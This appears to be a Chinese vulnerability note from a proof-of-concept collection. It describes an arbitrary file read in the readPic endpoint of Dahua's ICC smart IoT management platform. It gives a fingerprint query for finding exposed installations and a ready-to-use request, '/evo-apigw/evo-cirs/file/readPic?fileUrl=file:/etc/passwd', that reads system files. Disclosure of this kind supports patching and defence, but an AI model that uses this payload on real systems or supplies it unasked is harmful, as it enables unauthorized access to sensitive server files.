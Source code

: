 # 大华 ICC智能物联综合管理平台 readPic 任意文件读取漏洞

## 漏洞描述

大化 ICC智能物联综合管理平台 readPic 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>大华 ICC智能物联综合管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="*客户端会小于800*"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1699017507127-ec89d0a3-0723-47b5-8479-13e5b6225041-20231108135931436.png)

验证POC

```php
/evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd
```

![img](../../../.vuepress/public/img/1699017568114-6f5e2d21-5f6b-4e68-95d3-54e5602263ae-20231108135935667.png)